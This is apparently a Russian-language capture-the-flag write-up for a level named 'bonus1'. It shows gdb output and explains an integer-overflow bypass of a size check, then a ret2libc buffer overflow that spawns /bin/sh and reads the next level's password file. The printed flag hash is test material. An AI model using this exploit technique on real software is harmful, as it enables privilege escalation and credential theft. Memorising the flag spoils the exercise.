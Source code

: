 # Если atoi(argv[0]) больше 9 - программа не запускается
```
0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
```
# Вызов memcpy мы можем попробовать переполнить
```
0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
```

# Поскольку программа сравнивает беззнаковые числа, мы можем передать программе отрицательное число
# UINT_MAX = 4294967295
# UINT_MAX + 1 = 0
# В коде значение умножается на 4, поэтому 1073741824
```
gdb> r -1073741824 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
[Inferior 1 (process 2051) exited normally]
```

# Хорошо, тогда нам нужно найти шаблон
# 1073741824 - (100/4) = 1073741799
```
gdb> r -1073741799 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
SIGSEGV
gdb> pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 52
EIP+0 found at offset: 56
```
# Тогда давайте найдем адрес системного вызова libc
```
gdb> info func system
[...]
0xb7e6b060  system
[...]
```
# Теперь посмотрим, где в памяти хранится строка '/ bin / sh'
```
0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
gdb> x/s 0x8048583
0x8048583:	"/bin/sh"
```

# Давайте подготовим payload
# Чтобы узнать, сколько нам нужно скопировать
# 56 + 4 + 4 + 4 = 68
# 1073741824 - (68/4) = 1073741807
```
$> ./bonus1 -1073741807 $(python -c "print 'A'*56 + '\x60\xb0\xe6\xb7' + 'DUMM' + '\x83\x85\x04\x08'")
> cat /home/user/bonus2/.pass
```
>579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

# ╮(￣_￣)╭